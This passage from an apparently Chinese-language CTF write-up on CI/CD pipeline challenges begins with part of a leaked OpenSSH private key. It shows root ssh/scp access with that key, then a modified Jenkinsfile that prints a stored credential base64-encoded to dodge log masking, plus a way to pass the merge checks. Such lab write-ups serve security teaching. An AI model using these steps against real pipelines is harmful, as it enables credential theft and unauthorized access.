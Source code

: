 ```bash
m9ZN6VGIbnFgtItUN8ntsS2srJ3N5VyfNiGg3pM3p0pWtOmSgjTPjrbeEtb44O73/0z38W
HfzphsbgHg0TVVEFN28N7yLHYpMRkLPz70h/RIBLRmaZrIYKuQ+KgSAPAKydnHaV8JJV75
ubOTb6IEGcR9jFOjwnEe+7pC3AZOwdkstQqCM8mUWUywqKVQ2j4iFeCWyGc2jWGq3tpT9C
oRq1Wiv56KO8IJGHfIAczKyTyLwrxgxwAAAMEA1/MFbll+7fir7eNaJuD2nhvOVq0BlBTj
KLOlCgZnBsWhh+uL+/7hzPQJdG9qZyjk2nkPeUzgwgfbtsjDhp18d1rN+ZvP7mXgtzS02K
ownCDcQz+weO/BhAFFl6IkDPB0XnC8oC0PNKs9Pp9SKlkiDtTKcvFCOBaq5LOn3XFQdaZR
lFAeCtpLFZd1aqozL+WxdhJ+OlUMWexAHNVInX3vM245R2hiSEHJfCMKwKmdQ2nkpyCjMz
nFX2YLEFe9BqS3AAAAF2FzaUBBc2FmLkdyZWVuaG9sdHMtTUJQAQID
-----END OPENSSH PRIVATE KEY-----

--------------------------ab4b01bd9df8bad8--
```

这里就拿到了 key，可以 ssh 直接登录：

```bash
chmod 400 key
ssh -i key -p 2222 root@127.0.0.1
```

或者用 scp 修改文件：

```bash
echo "${FLAG}" | base64 > reportcov.sh
chmod 400 key
scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
```

再 build pipeline 就可以获得 flag。

## Mock Turtle

Jenkins 代码有三层判断，问一下 newbing，第一部分是检查增加的单词数和减少的单词数必须相同；第二部分是判断 version 文件是否只有一行，并且符合 x.y.z 的格式；第三部分是判断 pull request 中是否修改了 version 文件。满足上面条件就会执行 merge。

因此修改`Jenkinsfile`

```bash
pipeline {
    agent any
    stages {
        stage('pr_checks') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'flag10', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
            }
        }
}
```

修改 version（`echo "1.0.13\c">version`，最后不能有换行）：
